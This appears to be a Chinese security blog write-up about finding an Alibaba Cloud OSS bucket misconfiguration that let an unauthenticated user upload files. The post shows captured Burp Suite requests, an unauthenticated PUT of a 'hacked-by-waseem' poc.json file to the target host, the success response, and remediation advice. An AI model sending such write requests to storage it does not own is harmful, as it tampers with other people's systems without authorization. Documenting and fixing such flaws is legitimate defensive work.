 #  一次OSS存储桶的任意数据上传挖掘   
白帽子左一  白帽子左一   2025-02-05 07:28  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSFbaUgVwdsriauB77CgQS8lyBNAxtx9IMqJQdhuuoITunu8A5Gp7kFjF7BvEXSaLMuDTYhnu7Nicghg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
**来****Track安全社区投稿~**  
  
**赢千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
## 第一步：识别目标  
  
在随意浏览目标网站时，我遇到了一个 **403 Forbidden** 响应。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSGbYlNhqforRgtQyU2d868boO6BanplLauaLwF5M2G0TPNOIbiclBcZYic2Yiak01T7hepPJ8BCEaXIw/640?wx_fmt=png&from=appmsg "null")  
  
img  
## 第二步：技术检测  
  
我使用 **Wappalyzer** 浏览器扩展来分析目标所使用的技术。结果显示，该网站正在使用 **阿里云对象存储服务（OSS）**。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSGbYlNhqforRgtQyU2d868byVeSAKWbdZLleXNc4D6jFotBnZNCDsIuEN6ibHbjRr2h6owvHokZ9zw/640?wx_fmt=png&from=appmsg "null")  
  
img  
## 第三步：捕获请求  
  
我启动了 **Burp Suite**，捕获了请求并将其发送到 Repeater。以下是捕获的请求：  
```
GET / HTTP/1.1
Host: target.com
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```  
## 第四步：观察响应  
  
我收到以下响应：  
```
HTTP/1.1 403 Forbidden
Server: AliyunOSS
Date: Sat, 01 Feb 2025 12:33:50 GMT
Content-Type: application/xml
Content-Length: 366
Connection: keep-alive
x-oss-request-id: 679E14AEB630023931679926
x-oss-server-time: 18
x-oss-ec: 0003-00000905
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>The bucket you access does not belong to you.</Message>
  <RequestId>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSGbYlNhqforRgtQyU2d868bOrv4hnR6hRnqUnkz40gVLz5xxJntWRkicOIrNLDPANN03TE3VlXk0mQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
## 第五步：测试 PUT 方法  
  
由于收到 **403 Forbidden** 响应，我决定测试是否允许 **PUT 请求**。我对请求进行了如下修改：  
```
PUT /poc.json HTTP/1.1
Host: target.com
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Length: 32

{"id": "hacked-by-waseem"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSGbYlNhqforRgtQyU2d868bsAh7X7Vp7X6J5q4yZ0QiaQEbadgYcWoRQQIzCJtzibNuFYw1gQeajicEA/640?wx_fmt=png&from=appmsg "null")  
  
img  
## 第六步：收到 200 OK 响应  
  
令我惊讶的是，我收到了 **200 OK** 响应，这表明我的数据已成功上传！  
```
HTTP/1.1 200 OK
Server: AliyunOSS
Date: Sat, 01 Feb 2025 12:38:20 GMT
Content-Length: 0
Connection: keep-alive
x-oss-request-id: 679E15BC51C5F932386122A0
ETag: "1650257635488786160B4C064076B0A1"
x-oss-hash-crc64ecma: 14149601074129124870
Content-MD5: FlAldjVIh4YWC0wGQHawoQ==
x-oss-server-time: 25
```  
## 第七步：验证数据访问  
  
随后，我尝试访问上传的 **poc.json** 文件，并成功检索到了存储的数据。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSGbYlNhqforRgtQyU2d868bk8xrrpJSkNMeicHZuDSb9m2bPsYle6NUjTr9sXxffMnJKMxysEyTVPg/640?wx_fmt=png&from=appmsg "null")  
  
img  
## 结论  
  
**阿里云对象存储服务（OSS）** 的此类错误配置允许未授权用户上传数据，可能导致严重的安全风险，例如：  
  
        未授权的数据存储  
  
        覆盖敏感文件  
  
        潜在的数据泄露  
## 建议  
  
为了防止此类漏洞，应采取以下措施：  
  
1.**限制公共访问：** 确保只有经过身份验证的用户才能上传数据。  
  
2.**正确配置 ACL（访问控制列表）：** 仅授予授权用户适当的权限。  
  
3.**监控日志：** 定期检查日志，检测未授权的 PUT 请求。  
  
4.**启用身份验证：** 对所有云存储操作强制要求身份验证。  
  
**声明：⽂中所涉及的技术、思路和⼯具仅供以安全为⽬的的学********习交流使⽤，任何⼈不得将其⽤于⾮法⽤途以及盈利等⽬的，否则后果⾃⾏承担。所有渗透都需获取授权！**  
  
**如果你是一个网络安全爱好者，欢迎加入我的知识星球：zk安全知识星球,我们一起进步一起学习。星球不定期会分享一些前沿漏洞，每周安全面试经验、SRC实战纪实等文章分享，微信识别二维码，即可加入。**  
  
****  
  
